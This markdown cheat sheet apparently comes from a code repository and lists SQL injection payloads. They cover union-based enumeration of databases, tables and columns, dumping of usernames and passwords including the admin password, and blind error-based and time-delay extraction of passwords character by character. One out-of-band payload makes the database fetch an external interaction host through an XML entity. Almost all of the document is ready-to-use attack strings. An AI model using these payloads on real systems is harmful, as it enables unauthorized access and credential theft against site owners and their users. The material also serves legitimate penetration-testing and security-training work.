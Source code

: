# SQL Injection Cheat Sheet

This guide covers a range of SQL injection techniques, including extracting database information, table and column names, and data (e.g., usernames and passwords). It also includes blind SQL injection techniques with error-based, time-based, and out-of-band methods.

---

## 1. Ordering and Union Select Queries
```sql
-- Order by column 3
' order by 3 --+

-- Basic union select to test query structure
' union select null,null,null --+

-- Retrieving database information
' union select null,database(),null --+
' union select null,current_user,null --+
' union select null,version(),null --+
' union select null,database(),@@datadir --+

````


## 2. Extracting Table Names
```sql
-- Extract table names from the current database
' union select null,table_name,null from information_schema.tables where table_schema=database() --+

-- Print specific table name using LIMIT
' union select null,table_name,null from information_schema.tables where table_schema=database() limit 1,1 --+

-- Concatenate and print all table names
' union select null,group_concat(table_name),null from information_schema.tables where table_schema=database() --+

````

## 3. Extracting Column Names
```sql
-- Get column names for the 'uagents' table
' union select null,group_concat(column_name),null from information_schema.columns where table_name='uagents' --+

-- Extract a specific column using LIMIT
' union select null,column_name,null from information_schema.columns where table_name='users' limit 2,1--+

````

## 4. Dumping Data from Tables
```sql
-- Dump all usernames and passwords
' union select null,group_concat(username),group_concat(password) from users --+

-- Dump the admin password
' union select null,group_concat(password),null from users where username='admin' --+

````

## 5. Determining Column Data Types
```sql
-- Check if the 2nd column is of string type
' UNION select 'a', NULL, NULL-- 
' UNION select NULL, 'a', NULL-- 

-- Test for multiple string columns
' UNION SELECT 'a', 'a' from DUAL -- (For Oracle)

````

## 6. Database Version Enumeration
```sql
-- Oracle database version
SELECT banner FROM v$version;
SELECT version FROM v$instance;

-- Microsoft SQL Server version
SELECT @@version;

-- PostgreSQL version
SELECT version();

````
## 7. Retrieving Database Contents
```sql

-- Oracle: List all tables and their columns
SELECT * FROM all_tables;
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE';

-- Microsoft SQL Server / MySQL / PostgreSQL: List tables and columns
SELECT * FROM information_schema.tables;
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE';

````
### 8. Advanced SQL Injection Techniques
## 8.1. Username and Password Validation
```sql
-- Check if a specific user exists
wQvKmbm3Xb5f9MXG' and (select 'x' from users limit 1)='x' --+
and (select username from users where username='administrator')='administrator' --+

-- Check password length for 'administrator'
and (select username from users where username='administrator' and LENGTH(password)>1)='administrator' --+

-- Check if the first character of the password is 'a'
' and (select SUBSTRING(password,1,1) from users where username='administrator')='a' --+

````

## 8.2. Blind SQL Injection with Conditional Errors
```sql
-- Confirm if the parameter is vulnerable
'|| (select '' from dual) ||'  -- Oracle
'|| (select '') ||'  -- Non-Oracle

-- Check if the admin user exists using errors
'|| (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM users where username='administrator') ||'

-- Retrieve length of admin password
'||( SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM users where username='administrator' and LENGTH(password)>1 ) ||'

-- Find the 1st character of the password
'||( SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM users where username='administrator' and substr(password,1,1)='a' ) ||'

````

## 9. Blind SQL Injection with Time Delays
```sql
-- Time delay injection to confirm vulnerability
'|| (select sleep(10) )--'
'|| (select pg_sleep(10))--+

-- Using conditional time delays to retrieve data
'|| (select case when (username='administrator') then pg_sleep(10) else pg_sleep(-1) end from users)--+

-- Enumerate password length via time delays
'|| (select case when (username='administrator' and LENGTH(password)>20) then pg_sleep(10) else pg_sleep(-1) end from users)--+

````

## 10. Blind SQL Injection with Out-of-Band Interaction
````sql
-- Trigger DNS lookup via XML payload
'|| (SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://f1hwv3p2gmaunelgaprym9e8lzrqfh36.oastify.com/"> %remote;]>'),'/l') FROM dual)--+

````

## 11. SQL Injection with Filter Bypass via XML Encoding
 ```sql
-- Filter bypass using XML encoding
1 UNION SELECT username || '~'  || password FROM users;



````




